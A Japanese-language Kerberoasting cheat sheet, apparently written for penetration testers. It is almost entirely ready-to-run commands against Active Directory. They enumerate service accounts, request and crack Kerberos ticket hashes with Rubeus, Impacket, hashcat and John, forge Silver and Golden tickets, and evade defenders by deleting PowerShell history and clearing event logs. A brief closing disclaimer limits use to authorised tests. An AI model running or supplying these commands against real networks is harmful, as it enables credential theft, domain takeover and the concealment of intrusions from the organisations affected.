 # Kerberoasting Attack Techniques

## Kerberoasting の基本

### SPNアカウントの列挙
```powershell
# PowerView を使用したSPN列挙
Import-Module .\PowerView.ps1
Get-NetUser -SPN

# Active Directory PowerShell モジュールを使用
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# Impacket を使用
GetUserSPNs.py domain.local/username:password -dc-ip <dc-ip>
```

## チケットの取得

### PowerShell を使用した取得
```powershell
# Rubeus を使用したチケット取得
.\Rubeus.exe kerberoast /outfile:hashes.txt

# 特定のユーザーのチケット取得
.\Rubeus.exe kerberoast /user:sqlservice /outfile:sqlservice.txt

# ステルス性を高めた取得
.\Rubeus.exe kerberoast /tgtdeleg
```

### Impacket を使用した取得
```bash
# 基本的なチケット取得
GetUserSPNs.py domain.local/username:password -dc-ip <dc-ip> -request

# 特定のユーザーのチケット取得
GetUserSPNs.py domain.local/username:password -dc-ip <dc-ip> -request-user sqlservice

# ASREPRoasting（事前認証なし）
GetNPUsers.py domain.local/ -usersfile users.txt -format hashcat -outputfile hashes.txt
```

## チケットのクラック

### Hashcat を使用したクラック
```bash
# Kerberoastingハッシュのクラック（モード13100）
hashcat -m 13100 hashes.txt wordlist.txt

# ルールを使用したクラック
hashcat -m 13100 hashes.txt wordlist.txt -r rules/best64.rule

# ASREPRoastingハッシュのクラック（モード18200）
hashcat -m 18200 asrep.txt wordlist.txt
```

### John the Ripper を使用したクラック
```bash
# Kerberoastingハッシュのクラック
john --format=krb5tgs hashes.txt --wordlist=wordlist.txt

# ASREPRoastingハッシュのクラック
john --format=krb5asrep asrep.txt --wordlist=wordlist.txt
```

## 高度な技術

### SPN操作
```powershell
# SPNの追加（管理者権限必要）
Set-ADUser -Identity targetUser -ServicePrincipalNames @{Add='HTTP/server.domain.local'}

# SPNの削除
Set-ADUser -Identity targetUser -ServicePrincipalNames @{Remove='HTTP/server.domain.local'}
```

### チケットの改ざん
```powershell
# Silver Ticketの作成
.\Rubeus.exe silver /service:HTTP/server.domain.local /rc4:<hash> /user:Administrator /domain:domain.local

# Golden Ticketの作成
.\Rubeus.exe golden /rc4:<krbtgt-hash> /domain:domain.local /user:Administrator
```

## 防御回避テクニック

### ステルス性の向上
```powershell
# TGTを使用したKerberoasting
.\Rubeus.exe kerberoast /tgtdeleg /outfile:stealthy.txt

# エンコードされたチケットの取得
.\Rubeus.exe kerberoast /tgtdeleg /outfile:stealthy.txt /nowrap
```

### ログ回避
```powershell
# PowerShellログの削除
Remove-Item (Get-PSReadlineOption).HistorySavePath
Clear-EventLog "Windows PowerShell"

# Kerberosチケットのパージ
klist purge
```

## 注意事項
- これらの技術は、許可された環境でのペネトレーションテストでのみ使用してください
- 大量のチケット要求は検知される可能性があります
- 実環境での使用は違法となる可能性があります
- パスワードクラックは大量のリソースを消費する可能性があります 
